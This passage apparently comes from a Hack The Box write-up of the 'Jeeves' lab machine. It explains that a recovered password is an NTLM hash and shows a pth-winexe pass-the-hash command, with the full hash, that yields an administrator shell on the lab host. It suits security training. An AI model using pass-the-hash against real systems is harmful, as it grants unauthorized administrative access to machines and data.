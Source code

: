 None of these passwords are actually usable apart from *Backup stuff*.  

<a href="/img/blog/htb-jeeves/htb-jeeves-06.png" target="_blank"><img class="centerImgSmall" src="/img/blog/htb-jeeves/htb-jeeves-06.png"></a>

Does that password look familiar? Yup! It is an NTLM hash which we can use for pass the hash attack! Both Metasploit's **psexec** module or **pth-winexe** can be used. 
```console
root@EdgeOfNight:~# pth-winexe -U ./Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
jeeves\administrator

```
